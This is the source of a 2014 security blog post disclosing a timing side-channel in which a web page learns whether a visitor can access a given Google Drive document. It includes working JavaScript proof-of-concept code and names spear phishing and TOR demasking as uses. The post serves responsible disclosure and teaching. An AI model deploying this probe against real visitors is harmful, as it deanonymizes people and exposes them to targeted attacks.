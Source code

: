 ```yaml
---
layout: post
title: "Demasking Google Users with a Timing Attack"
date: 2014-09-04 13:34:10 -0700
comments: true
categories: [security, javascript]
---
```

## Responsible Disclosure

I believe strongly in the [responsible disclosure](http://en.wikipedia.org/wiki/Responsible_disclosure) of security issues, [having participated in Google's responsible disclosure program in the past](http://blog.andrewcantino.com/blog/2011/12/14/hacking-google-for-fun-and-profit/) and helping to run a similar [disclosure program](https://hackerone.com/mavenlink) at Mavenlink.

The issues discussed in this post were responsibly disclosed to Google Security.  Google triaged the issues, talked to the involved teams, and declined the opportunity to fix.  They gave me written permission to blog about this.

# The Attack

**Summary**: A 3rd party site can determine if a website viewer has access to a particular Google Drive document.

**Implications**: An attacker could share a document with one or more email addresses, but uncheck the option that causes Google to send a notification.  Now the attacking site can figure out when someone logged into any of the shared addresses visits their site.  This is mostly useful for very targeted attacks, where an attacking site needs to behave differently based on who is viewing.  This could be used for spear phishing, identification of government officials, demasking users of TOR, industrial mischief, etc.

<!-- more -->

**How it works**:  The attack is straightforward. A malicious page repeatedly instantiates an image whose source points at the URL of a Google Drive document.  If that document is viewable by the visitor, loading the resulting page will take longer than if the document is not viewable.  Since the result isn't an image, the `onerror` callback of the image is triggered in both cases, but we can record how long it takes from image instantiation to triggering of the `onerror`.  This time will be greater when the document is accessible.  In my experiments, loading took an average of 891ms when the document was available, but 573ms when it was not.  Since this is going to be connection-dependent, it makes sense to simultaneously test against a document that is always known to be inaccessible, then compare times with the probe document.

Google chose not to fix this issue, as "the risk here is fairly low, both in terms of impact and difficulty of exploiting this against a large population, and we don't have an effective solution".  I don't really disagree with them-- this *is* hard to fix, and fairly theoretical.  Still, I think this is an interesting example of a timing attack, and shows how hard these sorts of issues can be to avoid.

Here is some example code:

``` javascript
var urls = {
  hasAccess: "https://docs.google.com/document/....../edit",
  doesNotHaveAccess: "https://docs.google.com/document/....../edit"
};

function addImage(src, callback) {
  var elem = document.createElement("IMG");
  elem.src = src + "?r=" + Math.random();
  elem.onerror = callback;
  $("body").append(elem);
}

var times = { 
  hasAccess: { sum: 0, count: 0 }, 
  doesNotHaveAccess: { sum: 0, count: 0 }
};

var testRuns = 40; // a smaller number can be used

function nextTest() {
  testRuns--;
  if (testRuns > 0) {
    var type = Math.random() > 0.5 ? 'hasAccess' : 'doesNotHaveAccess';
    var startTime = new Date().getTime();
    addImage(urls[type], function() {
      var endTime = new Date().getTime();
      times[type].count++;
      times[type].sum = times[type].sum + (endTime - startTime);
      setTimeout(nextTest, 100); // a shorter timeout is fine
    });
  } else {
    $("body").append("hasAccess: " + (times.hasAccess.sum / times.hasAccess.count) + "<br />" + "doesNotHaveAccess: " + (times.doesNotHaveAccess.sum / times.doesNotHaveAccess.count));
  }
}

nextTest()
```
